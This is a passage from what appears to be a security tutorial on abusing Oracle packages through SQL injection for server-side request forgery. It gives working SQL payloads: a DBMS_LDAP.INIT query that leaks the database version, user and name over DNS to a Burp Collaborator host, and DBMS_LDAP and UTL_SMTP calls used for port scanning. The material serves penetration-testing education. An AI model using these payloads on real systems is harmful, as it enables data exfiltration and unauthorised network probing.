 This crude search obviously skips packages like `DBMS_LDAP` (which allows passing a hostname and port number) as <a href="https://docs.oracle.com/database/121/ARPLS/d_ldap.htm#ARPLS360">the documentation page</a> simply points you to a <a href="https://docs.oracle.com/database/121/ARPLS/d_ldap.htm#ARPLS360">different location</a>. Hence, there may be other Oracle packages that can be abused to make outbound requests that I may have missed.

In any case, let's take a look at some of the packages that we have discovered and listed above.

#### DBMS_LDAP.INIT

The `DBMS_LDAP` package allows for access of data from LDAP servers. The `init()` function initializes a session with an LDAP server and takes a hostname and port number as an argument.

This function has been documented before to show exfiltration of data over DNS, like below

```sql
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```

However, given that the function accepts a hostname and a port number as arguments, you can use this to work like a port scanner as well.

Here are a few examples

```sql
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/18.png)

A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` shows that the port is closed while a session value points to the port being open.

#### UTL_SMTP

The `UTL_SMTP` package is designed for sending e-mails over SMTP. The example provided on the <a href="https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478" target="_blank" rel="noopener noreferrer">Oracle documentation site shows how you can use this package to send an email</a>. For us, however, the interesting thing is with the ability to provide a host and port specification.

A crude example is shown below with the `UTL_SMTP.OPEN_CONNECTION` function, with a timeout of 2 seconds

```sql
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```sql
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
